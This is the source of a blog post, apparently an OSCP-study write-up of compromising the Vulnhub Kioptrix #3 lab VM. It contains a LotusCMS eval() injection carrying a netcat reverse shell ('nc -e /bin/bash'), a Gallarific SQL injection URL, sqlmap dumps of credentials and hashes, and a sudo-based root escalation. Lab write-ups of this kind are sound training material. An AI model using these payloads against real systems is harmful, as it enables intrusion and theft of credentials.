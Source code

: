 ```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #3 Writeup"
date:   2020-02-07 10:43:16 +0530
categories: OSCP
tags: Vulnhub
classes: wide
---
```

### [Vulnhub - Kioptrix #3](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

## Enumeration
Lets add `kioptrix3.com` to `hosts` file and start off with `Nmap`

### Nmap
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-03 16:34 IST
Nmap scan report for 192.168.71.130
Host is up (0.0026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:93:F2:E6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.25 seconds
```

Found some interesting urls by browsing around and using `dirb`.
```bash
http://kioptrix3.com/phpmyadmin/
http://kioptrix3.com/gallery/gadmin/
http://kioptrix3.com/index.php?system=Admin
```

There are lot of methods to compromise this system. I will try to explain the ones I found.

# User Shell Method 1 (Lotus CMS RCE)
The webserver is using `LotusCms`. A quick search using `searchsploit` yielded some `RCE`

### Searchsploit

```bash
kali@kali:~$ searchsploit lotuscms
****
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)               | exploits/php/remote/18565.rb
```

Its a `metasploit` module. However since use of `metasploit` is limited during OSCP, I exploited it without `metasploit`

### Understanding LotusCms RCE
-----------------------------
>This module exploits a vulnerability found in Lotus CMS 3.0's Router() function. This is done by embedding PHP code in the 'page' parameter, 
>which will be passed to a eval call, therefore allowing remote code execution.

So we can escape the `eval` call and execute our own php code by appending `');`

A reverse shell can be execute using the following code
```bash
kioptrix3.com/index.php?page=index');exec("nc -e /bin/bash 192.168.174.3 1234"); //
```
Setup a `nc` listener to catch the request and use `python pty` module to upgrade it to a full TTY shell
```bash
kali@kali:~$ nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.174.3] from kioptrix3.com [192.168.174.5] 34305
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Kioptrix3:/home/www/kioptrix3.com$    
```

## Low Shell Enumeration

There is a file named `gconfig.php` in `/home/www/kioptrix3.com/gallery` that contains the `db` credentials
```bash
www-data@Kioptrix3:/home/www/kioptrix3.com/gallery$ cat gconfig.php
cat gconfig.php
-------output snipped---------------
        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
-------output snipped---------------
```

We can use these credential to login to `phpmyadmin` and find credentials for `dreg` and `loneferret` and use it to `SSH` into the box.
But we have to crack the hashes to get the password.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/phpmyadmin2.png){: .align-center}

# User Shell Method 2 (SQL Injection)

The web server is using `Gallarific`. It contains an SQL Injection in the following url.

```bash
http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=filename#photos
```
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/sql1.png){: .align-center}

The sql error indicates that sql injection is possible. Lets dump the database using `sqlmap`

### SqlMap

```bash
Database: gallery
Table: dev_accounts
[2 entries]
+----+----------------------------------+------------+
| id | password                         | username   |
+----+----------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e | loneferret |
+----+----------------------------------+------------+

Database: gallery
Table: gallarific_users
[1 entry]
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| userid | email   | photo   | website | joincode | lastname | password | username | usertype  | firstname | datejoined | issuperuser |
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| 1      | <blank> | <blank> | <blank> | <blank>  | User     | n0t7t1k4 | admin    | superuser | Super     | 1302628616 | 1           |

```
`sqlmap` found login for the users `dreg` and `loneferret` and also logins for `gallarffic`.

These hashes can be cracked using rainbow tables or by brute forcing.

### Crackstation (Rainbow Table Attack)
We can crack the hashes using online rainbow table hash cracker. [Crackstaion](crackstation.net/)
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/crackstation.png){: .align-center}


## Root Shell
After `SSH`ing into the box we can see that there is a file named `CompanyPolicy.README` which contains the following text.

```bash
loneferret@Kioptrix3:/home/loneferret# cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

So we can run `sudo ht`. `ht` is a text editor and since its running as `root` we can gain `root` using one these methods
1. Edit `sudoers` file 
2. Add our key to `ssh`
3. Change the password file.

Since method 1 is the easiest, lets do it that way.

Before using `ht` we have to set the `$TERM` env variable to `xterm`
```bash
loneferret@Kioptrix3:/home/loneferret#export TERM=xterm
```
So lets open `sudoers` file and add `/bin/sh` to it.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/root.gif){: .align-center}

And we are root!

## Afterthoughts
This box was comparatively easy to root. But that was not the case for me. This was because I failed to enumerate the box properly. Once I found a possible exploit
I immediately abandoned further enumeration and focused on that method alone and ended up getting stuck and had to look for hints. So I have learned a very important lesson form this box. Enumeration is the most important step.  
There seems to be a kernel exploit available for this box, but I did not try that out.

## Further reading
1. [Manual SQL Injection.](https://www.hackingarticles.in/manual-sql-injection-exploitation-step-step) Can't use `sqlmap` during OSCP
2. [Structure of sudoers file](https://www.garron.me/en/linux/visudo-command-sudoers-file-sudo-default-editor.html)
3. [Autorecon.](https://github.com/Tib3rius/AutoRecon) An excellent tool for automating enumeration
